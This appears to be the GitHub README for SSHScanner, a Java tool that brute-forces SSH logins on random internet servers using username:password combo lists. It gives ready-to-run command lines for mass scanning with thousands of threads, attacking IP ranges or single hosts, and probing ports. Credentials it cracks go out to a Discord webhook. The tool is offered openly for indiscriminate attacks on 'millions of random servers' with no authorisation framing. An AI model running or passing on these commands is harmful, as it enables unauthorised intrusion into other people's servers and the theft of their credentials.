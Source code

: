 ## Description
This tool scans random SSH servers around the world and it tests the most used passwords

## Developers

You can reuse SSHScanner but make sure you comply with the [LICENSE](https://github.com/thisisnzed/SSHScanner/blob/main/LICENSE).

### Maven

```xml
<dependencies>
    <dependency>
        <groupId>com.thisisnzed</groupId>
        <artifactId>SSHScanner</artifactId>
        <version>1.2.0-SNAPSHOT</version>
    </dependency>
</dependencies>
```

## Lib

* **JSch** : http://www.jcraft.com/jsch/ 

## Usage

* I. Download the [latest release](https://github.com/thisisnzed/SSHScanner/releases) of SSHScanner
* II. Launch the program 

## Launch

*Here are some examples of commands according to your need*

- **Scan random SSH servers :** java -jar SSHScanner.jar -combo combo.txt -threads 1 -port 22 -timeout 6000 -webhook "https://discord.com/api/webhooks/x/y" -verbose true
- **Scan SSH range :** java -jar SSHScanner.jar -range range.txt -combo combo.txt -threads 3000 -port 22 -timeout 6000 -webhook "https://discord.com/api/webhooks/x/y" -verbose false
- **Scan specific SSH server :** java -jar SSHScanner.jar -combo combo.txt -threads 1 -port 22 -timeout 6000 -webhook "https://discord.com/api/webhooks/x/y" -verbose true -host "127.0.0.1"
- **Scan ports of specific SSH server (to get SSH port) :** java -jar SSHScanner.jar -combo combo.txt -timeout 1100 -webhook "https://discord.com/api/webhooks/x/y" -verbose true -host "127.0.0.1" -portlist ports.txt


## Arguments

Note: Each argument is optional

* **-combo <path>** | File containing all the "user:password" that the program will test for each host (default: combo.txt)
* **-threads <int>** | Number of threads launched (default: 1)
* **-port <int>** | Port that will be tested for each host (default: 22)
* **-timeout <int>** | Time (in ms) before the program marks a server as unavailable (default: 6000)
* **-webhook <url>** | Discord webhook where credentials will be sent (default: "")
* **-verbose <boolean>** | Whether or not to display failed attempts on the console (default: true)
* **-host <IP address>** | **WARNING: Only for bruteforce specific host** | Use this parameter ONLY if you want to perform a bruteforce attack on a specific SSH server - if you use this parameter you only will attack the requested server and not millions of random servers around the world (default: "")
* **-range <path>** | **WARNING: Only for bruteforce specifics ranges** | Use this parameter ONLY if you want to perform a bruteforce attack on specifics SSH servers (by putting ranges) - if you use this parameter you only will attack the requested ranges and not millions of random servers around the world (default: "")
* **-portlist <path>** | **WARNING: Only to get SSH port** | Use this parameter ONLY if you want to perform a bruteforce port attack on specific SSH server - if you use this parameter you only will attack the requested server (default: "")

